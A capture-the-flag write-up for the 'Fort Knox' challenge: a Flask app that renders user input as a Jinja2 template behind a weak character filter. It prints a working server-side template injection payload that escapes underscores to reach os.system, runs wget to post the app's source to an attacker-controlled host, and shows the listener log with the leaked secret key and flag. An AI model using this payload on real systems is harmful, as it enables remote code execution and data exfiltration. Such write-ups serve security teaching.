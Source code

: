 # Fort Knox 
>They say the [Fort Knox](http://104.248.237.208:5000/) is impenetrable, but as a friend of mine once said, give me ten brave men and I will conquer it!  
>Are you brave enough!  

This challenge was probably solved by everyone in an unintended way!
By visiting the page and viewing the source, we see the following comment:
```HTML
    <!--Source Code: /static/archive/Source -->
```
We get the application's source code and see this interesting piece of code:
```Python
@app.route("/ask", methods = ["POST"])
def ask():
    question = request.form["q"]
    for c in "._%":
        if c in question:
            return render_template("no.html", err = "no " + c)
    try:
        t = Template(question)
        t.globals = {}
        answer = t.render({
            "history": fort.history(),
            "credit": fort.credit(),
            "trustworthy": fort.trustworthy()
        })
    except:
        return render_template("no.html", err = "bad")
    return render_template("yes.html", answer = answer)
```

So this is jinja2 SSTI without "._%". This whitelist is too permissive to prevent RCE!
As we can see in [Jinja documentation](http://jinja.pocoo.org/docs/2.10/templates/), 

>You can use a dot (.) to access attributes of a variable in addition to the standard Python __getitem__ “subscript” syntax ([]).
>The following lines do the same thing:
>{{ foo.bar }}
>{{ foo['bar'] }}

So ```[].__class__``` can become ```[]['__class__']``` and because we're dealing with strings, the underscores can become ```\x5f```. So we can get the flag with the following payload:
```
{{[]['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()['\x5f\x5fgetitem\x5f\x5f'](59)()['\x5fmodule']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['system']('wget xx\x2exx\x2exx\x2exx --post-file fort\x2epy')}}
```
"fort.py" file was disclosed from a line of the source code that called ```import fort```!

Result:
```
Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.248.237.208] port 80 [tcp/http] accepted (family 2, sport 51242)
POST / HTTP/1.1
User-Agent: Wget/1.18 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 51.77.158.67
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 865

from flask import Flask, session

SECKEY = "some random key for signing 70657529378630738104827452603621"
FLAG = "ASIS{Kn0cK_knoCk_Wh0_i5_7h3re?_4nee_Ane3,VVh0?_aNee0neYouL1k3!}"
CORRECT_BEHAVIOUR = list(map(int, "34515465413625214253"))
PERFECT_CREDIT = sum([ x for x in range(len(CORRECT_BEHAVIOUR)) ])
```
There was more python code in that file, which hinted that this was an unintended sollution!
